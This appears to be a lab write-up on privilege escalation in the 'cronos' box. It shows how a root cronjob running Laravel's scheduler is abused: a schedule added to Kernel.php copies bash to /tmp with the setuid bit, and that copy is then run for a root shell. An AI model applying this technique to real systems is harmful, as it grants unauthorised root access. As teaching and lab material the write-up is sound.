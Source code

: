 # Privilege Escalation - 2
## Root - Via Cronjob, adding a task in Laravel Command Scheduler
1.	A cronjob running as root is executing `php /var/www/laravel/artisan schedule:run >> /dev/null 2>&1` every minute. 
2. Exploit Explanation
	- `laravel` command scheduler is being executed every minute as root, we are able to add a schedule that invokes a reverse shell, allowing us to obtain root.
3. Exploit
	1. [Defining schedules](https://laravel.com/docs/9.x/scheduling#introduction)
		- To be defined at `app/Console/Kernel.php` file `schedule` function
	2. [Schedule Frequency Options](https://laravel.com/docs/9.x/scheduling#schedule-frequency-options)
	3. [Scheduling shell commands](https://laravel.com/docs/9.x/scheduling#defining-schedules)
		```
		$schedule->exec('command')->everyMinute();
		```
	4. Find `/app/Console/Kernel.php`
		```
		www-data@cronos:/tmp$ find / 2>/dev/null | grep Kernel.php
		/var/www/laravel/app/Console/Kernel.php
		```
	5. Create reverse shell command to be executed every minute
		```
		$schedule->exec('cp /bin/bash /tmp/rootbashscheduler; chmod u+s /tmp/rootbashscheduler')->everyMinute();
		```
	6. Add it to `Kernel.php`
		![]({{ page.img_path }}Pasted%20image%2020220823230144.png)
	7. Wait for cronjob to execute
	8. Root Shell obtained
		```
		www-data@cronos:/tmp$ /tmp/rootbashscheduler -p
		```
		![]({{ page.img_path }}Pasted%20image%2020220823230343.png)